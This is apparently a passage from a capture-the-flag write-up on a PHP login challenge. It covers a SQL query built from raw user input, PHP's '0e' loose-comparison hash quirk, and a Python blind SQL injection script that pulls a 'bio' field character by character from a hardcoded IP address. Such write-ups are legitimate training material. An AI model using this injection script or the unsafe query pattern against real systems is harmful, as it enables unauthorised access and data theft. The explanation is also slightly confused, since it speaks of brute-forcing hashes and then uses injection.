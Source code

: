 ```php
$query = "SELECT username, password, bio FROM users where username = '$userParam' ";
```

Looking at the hashes themselves, we can see multiple start with `0e`. In PHP when comparing hashes using loose comparison (using == NOT ===) a string starting with `0e` followed by digits is interpreted as a scientific notation number when involved in a non-strict comparison. In scientific notation, `0e` followed by any number is equivalent to `0`.

For example, if you have two different strings whose MD5 hashes start with `0e` and are followed only by numbers, PHP will consider these hashes as equal when compared using ==. This is because both are interpreted as 0 in scientific notation.

Example:

```php
$hash1 = '0e123456789'; // Interpreted as 0 in scientific notation
$hash2 = '0e987654321'; // Also interpreted as 0 in scientific notation

if ($hash1 == $hash2) {
    echo "The hashes are equal."; // This will be printed
} else {
    echo "The hashes are not equal.";
}
```
In the above example, even though $hash1 and $hash2 are different strings, the comparison == results in them being treated as equal.

We can make a script to brute force the hashes, and we can see that the hash for `admin343` starts with `0e` and is followed by only numbers. This means that we can log in as `admin343` if we can find the password.

```python
import requests
import string 

dict = string.ascii_lowercase + string.ascii_uppercase + string.digits + "{"+"}" + "_"
flag=''
j = 0
while True:
    j += 1
    for i in range(0,255):
        a = f"admin343' and {i}=ascii(substr(bio,{j},1));#"
        print(a)
        b ='a'
        url = "http://34.132.132.69:8000/"
        burp0_data = {"username": a, "password": b}
        r=requests.post(url,data=burp0_data)
                
        if "Wrong password" in r.text:
            print('--')
            flag = flag + str(chr(i))
            print(flag)
            print('--')
            break
```
